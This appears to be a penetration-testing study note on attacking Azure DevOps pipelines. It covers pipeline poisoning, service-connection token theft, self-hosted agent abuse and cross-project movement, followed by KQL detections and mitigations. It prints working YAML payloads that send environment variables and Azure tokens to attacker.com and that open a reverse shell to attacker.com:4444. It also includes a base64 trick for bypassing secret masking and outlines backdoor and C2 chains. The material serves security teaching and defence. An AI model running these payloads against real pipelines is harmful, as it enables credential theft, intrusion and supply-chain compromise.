

# 09 - Attacking Azure DevOps CI CD Pipelines

## 1. Introduction to Azure DevOps

Azure DevOps (ADO) is a suite of development tools providing source code management (Repos), CI/CD pipelines (Pipelines), and project management (Boards). Because ADO pipelines are trusted to deploy code directly into production environments, they require highly privileged access to Azure subscriptions, AWS accounts, or on-premises infrastructure.

From a VAPT perspective, ADO is a goldmine. Attackers target pipelines to achieve **Supply Chain Attacks**, execute arbitrary code in sensitive environments, or extract highly privileged credentials (Service Connections). 

## 2. Architecture and Core Concepts

- **Organizations & Projects:** The top-level boundaries in ADO.
- **Pipelines:** Defined usually by YAML files (`azure-pipelines.yml`) stored in Repos. They define the build, test, and deployment steps.
- **Agents (Runners):** The compute instances executing the pipeline. Can be **Microsoft-Hosted** (ephemeral VMs in Azure) or **Self-Hosted** (managed by the organization, often inside internal networks).
- **Service Connections:** The integration points allowing ADO to authenticate to external services (like Azure Resource Manager). For Azure, Service Connections are almost always backed by **Azure AD Service Principals**.
- **Variables / Variable Groups:** Configurations and secrets passed to the pipeline at runtime.

## 3. The Attack Flow (ASCII Diagram)



## 4. Attack Vector 1: Pipeline Poisoning

If an attacker has `Contributor` access to a repository, they can modify the `azure-pipelines.yml` file to execute malicious commands. If branch policies prevent direct commits to `main`, the attacker can create a Pull Request (PR). Often, PRs automatically trigger build pipelines, executing the attacker's code *before* the PR is even reviewed.

**Malicious Payload Example (Dumping Environment Variables):**
```yaml
trigger:
- main

pool:
  vmImage: 'ubuntu-latest'

steps:
- script: |
    echo "Dumping environment variables..."
    env > env_dump.txt
    curl -X POST -F "file=@env_dump.txt" https://attacker.com/exfil
  displayName: 'Environment Discovery'
```

### Bypassing Secret Masking
ADO automatically masks secrets (like `$SECRET_VAR`) in the output logs, replacing them with `***`. Attackers bypass this by encoding the secret.
```yaml
steps:
- script: |
    echo $SUPER_SECRET_VAR | base64
  displayName: 'Steal Secret'
```
The attacker simply decodes the base64 string from the pipeline logs.

## 5. Attack Vector 2: Stealing Service Connection Tokens

When a pipeline task interacts with Azure (e.g., `AzureCLI@2` or `AzurePowerShell@5`), it uses a Service Connection. The agent requests a token for the underlying Service Principal and stores it temporarily.

An attacker can inject a script task *after* an Azure authentication step, or simply create their own `AzureCLI` task to dump the token.

**Token Extraction Payload:**
```yaml
steps:
- task: AzureCLI@2
  inputs:
    azureSubscription: 'Production-Service-Connection'
    scriptType: 'bash'
    scriptLocation: 'inlineScript'
    inlineScript: |
      # Retrieve the access token generated by the task
      TOKEN=$(az account get-access-token --query accessToken -o tsv)
      # Exfiltrate the token
      curl -d "token=$TOKEN" https://attacker.com/token_exfil
```
With this token, the attacker can interact with the Azure Resource Manager (ARM) directly from their own machine, completely bypassing ADO.

## 6. Attack Vector 3: Abusing Self-Hosted Agents

Self-hosted agents are often deployed within an organization's internal network (e.g., inside an on-premises datacenter or a private Azure VNet).
If an attacker compromises a pipeline running on a self-hosted agent, they achieve **Remote Code Execution (RCE) on the internal network**.

**Pivot Payload:**
The attacker executes a reverse shell in the pipeline:
```yaml
steps:
- script: |
    bash -i >& /dev/tcp/attacker.com/4444 0>&1
  displayName: 'Reverse Shell'
```
Once on the agent, the attacker can:
- Steal the ADO Agent PAT (Personal Access Token) used to register the runner.
- Dump credentials from the OS (e.g., LSASS on Windows agents).
- Pivot to other internal servers via SMB, SSH, or RDP.

## 7. Attack Vector 4: Cross-Project Lateral Movement

By default, the pipeline runs under the identity of the **Project Collection Build Service** or **Project Build Service**. If the organization has not enabled "Limit job authorization scope to current project", an attacker can use the `System.AccessToken` to query or modify resources in *other* projects within the same ADO organization.

```yaml
steps:
- script: |
    curl -H "Authorization: Bearer $(System.AccessToken)" https://dev.azure.com/OrganizationName/_apis/projects?api-version=6.0
  displayName: 'Enumerate Projects'
```

## 8. Detection Engineering (KQL & Audit Logs)

ADO auditing must be enabled in the Organization Settings and connected to Azure Log Analytics.

**Detecting Service Connection Abuse:**
```kusto
AzureDevOpsAuditing
| where OperationName == "ServiceConnection.Accessed" or OperationName == "ServiceConnection.Created"
| project TimeGenerated, ActorUPN, ProjectName, Data
```

**Detecting Pipeline Modifications:**
Monitor git commits targeting pipeline YAML files specifically for anomalous changes like `curl`, `wget`, `base64`, or reverse shell one-liners.

## 9. Mitigation Strategies

1. **Branch Policies & Required Reviewers:** Enforce strict branch policies. Prevent PRs from automatically triggering pipelines without a human reviewer approving the run.
2. **Limit Job Authorization Scope:** Ensure pipelines can only access repositories and resources within their specific project.
3. **Restrict Self-Hosted Agent Access:** Treat self-hosted agents as Tier 0/1 assets. Restrict their outbound internet access and segregate them from highly sensitive internal networks.
4. **Managed Identities for Service Connections:** Migrate from secret-based Service Principals to Workload Identity Federation (OIDC) for Service Connections. This prevents long-lived credentials from existing.
5. **Read-Only Variables:** Ensure sensitive variable groups are tightly controlled and not accessible to all pipelines.

## 10. Chaining Opportunities

- **ADO to Azure Pivot:** Compromise a developer's ADO PAT -> Modify pipeline -> Extract Service Connection Token -> Use token to authenticate as SP and dump Key Vaults.
- **Cloud to On-Prem Pivot:** Modify pipeline -> Trigger execution on Self-Hosted agent -> Drop C2 beacon on internal network -> Gain Domain Admin.
- **Supply Chain Infection:** Modify release pipeline to inject a backdoor into a compiled binary before it is pushed to production or distributed to customers.

## 11. Related Notes

- [[06 - Abusing Azure Service Principals]]
- [[08 - Azure Key Vault Extraction and Secrets Dumping]]
- [[10 - Azure Logic Apps Abuse]]
